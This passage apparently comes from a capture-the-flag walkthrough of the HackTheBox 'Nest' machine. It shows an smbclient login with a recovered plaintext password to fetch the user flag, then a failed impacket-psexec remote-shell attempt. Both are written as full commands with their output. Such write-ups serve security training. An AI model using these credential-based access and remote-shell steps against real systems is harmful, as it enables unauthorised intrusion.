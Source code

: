 ### User Flag using `smbclient`

Now I tried evil-winrm and impacket-psexec but none of the Share was writable so I couldn't drop the payload. But I was able to login to the smbshare using the above password with the user `C.Smith`

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Nest.htb]
└─# smbclient -U 'C.Smith' -p 'xRxRxPANCAK3SxRxRx' //nest.htb/Users
Password for [WORKGROUP\C.Smith]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jan 25 18:04:21 2020
  ..                                  D        0  Sat Jan 25 18:04:21 2020
  Administrator                       D        0  Fri Aug  9 11:08:23 2019
  C.Smith                             D        0  Sun Jan 26 02:21:44 2020
  L.Frost                             D        0  Thu Aug  8 13:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 13:02:50 2019
  TempUser                            D        0  Wed Aug  7 18:55:56 2019

                5242623 blocks of size 4096. 1840097 blocks available
smb: \> cd C.Smith
smb: \C.Smith\> dir
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       34  Fri Aug 30 22:16:30 2024

smb: \C.Smith\> get user.txt
getting file \C.Smith\user.txt of size 34 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \C.Smith\> exit

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Nest.htb]
└─# cat user.txt 
51e166731b4dd52ab80c7f67c742f77c                                                    
```

Got the User Flag

### Privilege Escalation

I got the user flag but getting winPEAS.exe or anything on the box is still something I will have to figure out because none of the share is writable. I tried to get a shell using `impacket-psexec` and didn't work

```
# impacket-psexec c.smith:xRxRxPANCAK3SxRxRx@10.10.10.178      
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.178.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'Data' is not writable.
[-] share 'Secure$' is not writable.
[-] share 'Users' is not writable.
```
